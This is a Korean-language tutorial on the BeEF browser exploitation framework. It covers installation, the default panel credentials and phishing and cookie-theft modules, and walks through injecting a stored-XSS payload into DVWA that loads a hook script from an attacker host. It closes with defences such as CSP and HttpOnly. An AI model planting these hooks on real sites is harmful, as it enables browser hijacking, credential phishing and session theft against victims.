

## 1. 개념

**BeEF (Browser Exploitation Framework)**는 클라이언트 사이드 취약점을 이용하는 브라우저 익스플로잇 프레임워크입니다.
자바스크립트 훅(Hook)을 통해 피해자의 웹 브라우저를 제어하고, 내부망 스캔이나 피싱 공격을 수행합니다.

### 기본 정보

| 항목 | 설명 |
|------|------|
| 유형 | 클라이언트 사이드 공격 |
| 전제 | XSS 취약점 필요 |
| 목적 | 브라우저 제어, 정보 수집 |

### 공격 흐름



---

## 2. 설치 및 실행

### Kali Linux
```bash
# BeEF 설치 (기본 포함)
apt install beef-xss

# 실행
beef-xss
# 또는
cd /usr/share/beef-xss && ./beef
```

### 기본 인증 정보
```
URL: http://127.0.0.1:3000/ui/panel
Username: beef
Password: beef (첫 실행 시 변경 필요)
```

### Hook 스크립트
```html
<script src="http://<BEEF_IP>:3000/hook.js"></script>
```

---

## 3. 공격 시나리오

### 1) XSS를 통한 Hook 삽입
```html
<!-- Stored XSS 예시 -->
<script src="http://192.168.1.100:3000/hook.js"></script>

<!-- 또는 이미지 태그 활용 -->

```

### 2) 피싱 페이지 생성
```
BeEF Panel → Commands → Social Engineering → Pretty Theft
```
- 가짜 로그인 팝업 생성
- Facebook, Gmail 템플릿 제공

### 3) 세션 하이재킹
```
Commands → Browser → Get Cookie
```

---

## 4. 주요 공격 모듈

### Browser 모듈

| 모듈 | 기능 |
|------|------|
| Get Cookie | 쿠키 탈취 |
| Get Visited Domains | 방문 기록 |
| Webcam/Microphone | 미디어 접근 |
| Screenshot | 화면 캡처 |

### Social Engineering

| 모듈 | 기능 |
|------|------|
| Pretty Theft | 가짜 로그인 폼 |
| Fake Notification | 가짜 알림 |
| Redirect | 피싱 페이지로 리다이렉트 |

### Persistence

| 모듈 | 기능 |
|------|------|
| Man-in-the-Browser | 지속적 세션 유지 |
| Create Invisible Iframe | 숨겨진 프레임 |

---

## 5. 실습 예시

### DVWA에서 XSS + BeEF

```
1. DVWA > XSS (Stored) 접속
2. Name: attacker
3. Message: <script src="http://192.168.1.100:3000/hook.js"></script>
4. Submit
5. 다른 사용자가 해당 페이지 방문 시 Hooked
6. BeEF Panel에서 제어
```


---

## 6. 방어 방법

### XSS 방지
- 입력값 검증 및 이스케이프
- CSP (Content Security Policy) 헤더
- HttpOnly 쿠키 플래그

### CSP 예시
```http
Content-Security-Policy: script-src 'self'; object-src 'none'
```

### 네트워크 레벨
- BeEF 서버 IP/도메인 차단
- 외부 스크립트 로드 모니터링

<hr class="short-rule">
